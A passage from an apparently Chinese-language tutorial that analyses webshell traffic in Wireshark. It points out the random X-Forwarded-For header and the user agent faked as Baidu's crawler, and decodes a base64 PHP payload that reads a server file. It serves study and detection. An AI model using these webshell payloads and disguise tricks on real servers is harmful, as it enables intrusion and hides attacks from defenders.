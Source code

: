 修改后保存，再次连接webshell，成功连接webshell

![14](/medias/webshell/14.png)

wireshark抓包，筛选http请求，找webshell的POST请求，追踪http流

能看到，数据包里使用了随机的xff头，ua头伪装成百度爬虫，payload使用base64编码`QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtZ`的开头

![15](/medias/webshell/15.png)

解码看看

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
if (PHP_VERSION < '5.3.0') {
    @set_magic_quotes_runtime(0);
}
echo("X@Y");
$F = '/var/www/html/shell.php';
$P = @fopen($F, 'r');
echo(@fread($P, filesize($F)));
@fclose($P);
echo("X@Y");
die();
```
